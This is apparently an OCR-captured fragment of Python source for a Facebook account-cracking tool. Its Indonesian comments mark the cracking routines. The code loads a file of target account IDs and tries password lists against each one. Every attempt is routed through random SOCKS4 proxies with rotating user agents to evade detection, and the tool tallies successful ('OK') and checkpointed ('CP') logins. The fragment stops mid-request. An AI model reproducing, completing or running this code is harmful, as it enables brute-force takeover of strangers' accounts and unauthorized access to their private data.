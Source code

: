 # MULAI CRACK
class __chigoue__:
    def __init__(self):
        self.id = []
    def chi(self, id):
        os.system("clear")
        logo()
        crot = input(f" {H}[{H}+{H}] Want to show related apps [{H}y{H}/{H}t{H}]: ")
        if crot in[""]:
            print(f" {N}[{M}×{N}] Don't be empty");__chigoue__().chi(id)
        elif crot in["Y","y"]:
            Apk.append("y")
        elif crot in["T","t"]:
            Apk.append("t")
        else:
            #jalan(f" {N}[{M}×{N}] Sorry, wrong username");self.tampilkan_apk()
            print(f" {H}[{H}×{H}] Select Between y/t");__chigoue__().chi(id)
        self.cnt = input('\033[1;92m[+] Enter File Name :\033[1;92m ')
        self.id = open(self.cnt).read().splitlines()
        os.system('clear')
        ___two___ = ('y')
        if ___two___ in ('yes', 'Yes', 'Y', 'y'):
#            self.__ok__()
            self.__pler__()
        else:
            print(' [!] Choose Correct One')
            self.chi(id)

# METODE SANDI MANUAL
            #print('\n %s[%s×%s] Sorry, it is wrong...!'%(N,M,N));self.plerr(id)
# PROSES CRACK METODE 3 in 1
    def __metode__(self, cebok, user, pasw):
        global ok,cp,loop
        animasi = random.choice(["\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]","\x1b[1;92m[JAMES]"])
        sys.stdout.write(f"\r {N}{animasi} {N}{loop}{N}/{M}{len(self.id)} {N}[{H}OK:{len(ok)}{N}][{K}CP:{len(cp)}{N}] [{H}{'{:.1%}'.format(loop/float(len(self.id)))}{N}]")
        sys.stdout.flush()
        try:
            for pw in pasw:
                pw = pw.lower()
                session=requests.Session()
                nip=random.choice(prox)
                proxs= {'http': 'socks4://'+nip}
                #ua1 = random.choice(agen1)
                #ua2 = random.choice(agen2)
                ua = random.choice(ugen)
                ua2 = random.choice(ugen2)
                session.headers.update({'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})